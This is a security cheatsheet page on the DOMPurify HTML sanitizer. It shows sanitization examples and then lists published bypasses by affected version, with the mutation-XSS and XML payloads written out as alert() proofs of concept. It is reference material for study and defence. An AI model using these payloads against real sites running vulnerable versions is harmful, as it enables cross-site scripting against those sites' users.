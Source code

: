 ```yaml
---
title: "DOMPurify"
description: "Cheatsheet on DOMPurify"
lead: "Cheatsheet on DOMPurify"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "framework"
weight: 620
toc: true
---
```


## DOMPurify

[DOMPurify](https://github.com/cure53/DOMPurify) is the leading client-side XSS sanitizer for HTML, MathML and SVG.

Examples of sanitization:

```js
DOMPurify.sanitize('<img src=x onerror=alert(1)//>'); // becomes <img src="x">
DOMPurify.sanitize('<svg><g/onload=alert(2)//<p>'); // becomes <svg><g></g></svg>
DOMPurify.sanitize('<p>abc<iframe//src=jAva&Tab;script:alert(3)>def</p>'); // becomes <p>abc</p>
DOMPurify.sanitize('<math><mi//xlink:href="data:x,<script>alert(4)</script>">'); // becomes <math><mi></mi></math>
DOMPurify.sanitize('<TABLE><tr><td>HELLO</tr></TABL>'); // becomes <table><tbody><tr><td>HELLO</td></tr></tbody></table>
DOMPurify.sanitize('<UL><li><A HREF=//google.com>click</UL>'); // becomes <ul><li><a href="//google.com">click</a></li></ul>
```

## Vulnerabilities

### Version <= 3.0.10 & 3.0.11

- [Bypassing DOMPurify with good old XML](https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/)

```xml
<?xml-stylesheet > <img src=x onerror="alert('DOMPurify bypassed!!!')"> ?>
<?img ><img src onerror=alert(1)>?>
<![CDATA[ ><img src onerror=alert(1)> ]]>
```

### Version 3.0.8

- [Playing with DOMPurify custom elements handling](https://mizu.re/post/playing-with-dompurify-ce-handling)

### Version <= 2.2.0

- [Bypass in DOMPurify when sanitizing svg elements](https://hackerone.com/reports/1024734)

```html
<form><math><mtext></form><form><mglyph><svg>
<mtext><style><path id="</style><img onerror=alert(\'XSS\') src>">
```

### Version < 2.1

- [Bypassing DOMPurify again with mutation XSS](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)

```html
<math><mtext><table><mglyph><style>
<!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">
```

### Version < 2.0.17

- [Mutation XSS via namespace confusion](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)

```html
<form>
<math><mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1)>
```

### Version <= 2.0.0

- [Write-up of DOMPurify 2.0.0 bypass using mutation XSS](https://research.securitum.com/dompurify-bypass-using-mxss/)

```html
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
```